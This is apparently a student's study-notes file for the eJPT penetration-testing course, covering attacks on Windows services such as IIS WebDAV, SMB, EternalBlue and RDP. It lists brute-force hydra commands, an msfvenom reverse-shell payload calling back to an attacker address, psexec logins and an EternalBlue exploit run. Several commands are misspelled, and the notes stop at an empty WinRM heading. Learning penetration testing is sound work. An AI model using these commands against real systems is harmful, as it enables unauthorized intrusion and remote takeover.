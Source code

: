 # 08hakr's Short Notes eJPT
# 006 INE-Host-and-Network-Penetration-Testing-System-Host Based-Attacks

## Host Based Attacks
## Windows Vulnerabilities
- Conflicker MS08-067, EternalBlue Ms17-010, 
- information Disclosure
- buffer OVerflow
- RCE
- Privilege Escalation
- DOS System host Resources CPU RAM Network

## Frequently Exploited Windows Services 
### Microsoft IIS 80 443
 - .asp, .aspx, .config, .php
- WebDav 80 443
 - dattest and cadaver
 - snmap -sV -p80 --script=http-enum <target-ip>
 - hydra -L /usr/share/wordlists/metasploit/common_users.txt -P common_password <target-ip> http-get /webdav/
 - davtest -auth bob:password_123321 -url http://<target-ip>/webdav/ 
 - cadaver http://<target-ip>/webdav
 - cd /usr/share/webshells/
 - getting Reverse shell with meteasplot
  - creating payload 
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f asp > shell.asp
  - upload file with cadaver
  - msfconsol
  - use multi/handler
  - set payload windows/meterpereter/reverse_tcp 
  - set same data LHOST LPOSRT
  - run
  - search IIS upload  ; //use this module to automate
 
### SMB CS 445
- PSEXEC
- search smb_login
- set user_file and password_file
- pse commaond   pasexec (metaspolite module)
- psexec.py Administrator@<target-ip> cmd.exe

### MS17-010 Eternal Blue SMB 445
- vulnerable Windows windows Vistsa, 7, server 2008, 8.1, server 2012, 10, server 2016
- exploit AutoBlue-MS17-10
- nmap -sV -p445 --script=smb-vuln-ms17-010 <target-ip>
- shell_prep.sh
- python eternalblue_Exploit.py <target-ip> shellcode/sc_x64.bin
### RDP 3389
- nmap -sV <target-ip>
- msfconsole
- search rdp_scanner
- hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P unix_passwords.txt rdp://<target-ip> -s 3333 -t <speed-till-16>
- xfreerdp /u:administrator /p:<password> /v:<target-ip>:3333
### BLueKeep CVE-2019-0708 RDP Vulnerability RDP
- Vulnerable XP, Vista, 7, Server 2008 R2
- 

### WinRM 5986/443

